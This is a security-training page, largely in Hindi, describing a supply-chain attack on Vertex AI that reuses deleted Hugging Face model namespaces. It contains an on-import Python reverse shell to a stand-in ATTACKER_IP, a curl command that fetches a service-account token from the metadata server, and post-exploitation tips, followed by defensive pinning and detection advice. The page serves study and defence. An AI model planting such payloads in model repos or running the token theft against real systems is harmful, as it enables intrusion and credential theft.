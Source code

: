 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## परिदृश्य

- Vertex AI Model Garden कई Hugging Face (HF) मॉडल्स की सीधे तैनाती की अनुमति देता है।
- HF model identifiers हैं Author/ModelName. यदि HF पर कोई author/org हटाया जाता है, तो वही author नाम किसी भी व्यक्ति द्वारा फिर से रजिस्टर किया जा सकता है। हमलावर तब उसी ModelName के साथ legacy path पर एक repo बना सकते हैं।
- नाम के आधार पर (बिना pinning/integrity) fetch करने वाले Pipelines, SDKs, या cloud catalogs attacker-controlled repo को pull कर लेंगे। जब मॉडल तैनात होता है, तो उस repo का loader code Vertex AI endpoint container के अंदर execute कर सकता है, जिससे endpoint की permissions के साथ RCE मिल सकती है।

HF पर दो सामान्य takeover केस:
- Ownership deletion: पुराना path 404 देता रहता है जब तक कोई author को फिर से रजिस्टर करके वही ModelName प्रकाशित न कर दे।
- Ownership transfer: HF पुराने Author/ModelName से नए author के पास 307 redirect जारी करता है। यदि पुराना author बाद में हटाया जाता है और एक attacker द्वारा फिर से रजिस्टर किया जाता है, तो redirect chain टूट जाती है और attacker का repo legacy path पर serve करता है।

## Reusable Namespaces (HF) की पहचान

- Old author deleted: author का पृष्ठ 404 लौटाता है; model path takeover तक 404 दे सकता है।
- Transferred models: जब पुराना author मौजूद होता है तो पुराना model path नए owner के लिए 307 जारी करता है। अगर पुराना author बाद में हटाया जाता है और फिर से रजिस्टर किया जाता है, तो legacy path attacker के repo को resolve करेगा।

curl के साथ त्वरित जाँच:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI के खिलाफ End-to-end Attack Flow

1) Model Garden द्वारा deployable के रूप में सूचीबद्ध उन reusable model namespaces की खोज करें:
- Vertex AI Model Garden में ऐसे HF models खोजें जो अभी भी “verified deployable” के रूप में दिखते हैं।
- HF पर जांचें कि original Author हटाया गया है या मॉडल transfer हुआ और पुराने Author को बाद में हटाया गया था।

2) HF पर deleted Author को फिर से re-register करें और वही ModelName पुन: बनाएं।

3) एक malicious repo publish करें। ऐसा कोड शामिल करें जो model load पर execute हो। आम उदाहरण जो HF model load के दौरान आमतौर पर execute होते हैं:
- repo के __init__.py में side effects
- config/auto_map द्वारा refer किए गए custom modeling_*.py या processing code
- ऐसे code paths जो Transformers pipelines में trust_remote_code=True की आवश्यकता रखते हैं

4) legacy Author/ModelName का Vertex AI deployment अब attacker repo को pull करता है। loader Vertex AI endpoint container के अंदर execute होता है।

5) Payload endpoint environment (RCE) से endpoint की permissions के साथ access स्थापित कर देता है।

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
नोट्स
- वास्तविक दुनिया के loaders भिन्न होते हैं। कई Vertex AI HF integrations model के config में संदर्भित repo मॉड्यूल्स को clone और import करते हैं (उदा., auto_map), जो code execution को ट्रिगर कर सकते हैं। कुछ उपयोगों के लिए trust_remote_code=True आवश्यक होता है।
- The endpoint सामान्यतः एक समर्पित container में सीमित scope के साथ चलता है, लेकिन यह GCP में data access और lateral movement के लिए एक वैध प्रारम्भिक foothold हो सकता है।

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- credentials/tokens के लिए environment variables और metadata को enumerate करना
- संलग्न storage या mounted model artifacts तक पहुँच बनाना
- service account identity के माध्यम से Google APIs के साथ interaction (Document AI, Storage, Pub/Sub, आदि)
- यदि प्लेटफ़ॉर्म repo को फिर से pull करता है तो model artifact में persistence

यदि उपलब्ध हो तो instance metadata को enumerate करें (container पर निर्भर):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI उपयोगकर्ताओं के लिए रक्षात्मक मार्गदर्शन

- HF loaders में मॉडल्स को commit द्वारा पिन करें ताकि silent replacement रोका जा सके:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- सत्यापित HF मॉडलों को एक भरोसेमंद आंतरिक artifact store/registry में mirror करें और वहीं से deploy करें।
- कोडबेस और configs को लगातार स्कैन करें ताकि hard-coded Author/ModelName जो हटाए गए/हस्तांतरित हुए हैं, मिल सकें; इन्हें नए namespaces में अपडेट करें या commit द्वारा pin करें।
- Model Garden में deployment से पहले मॉडल provenance और लेखक के अस्तित्व को verify करें।

## पहचान ह्यूरिस्टिक्स (HTTP)

- हटाया गया लेखक: लेखक पेज 404; legacy model path 404 रहता है जब तक takeover नहीं होता।
- हस्तांतरित मॉडल: legacy path 307 नए लेखक की ओर जाता है जबकि पुराना लेखक मौजूद रहता है; यदि बाद में पुराना लेखक हटाया गया और पुनः-पंजीकृत कर दिया गया, तो legacy path हमलावर की सामग्री परोसता है।
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## क्रॉस-संदर्भ

- विस्तृत कार्यप्रणाली और सप्लाई-चेन नोट्स देखें:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## संदर्भ

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
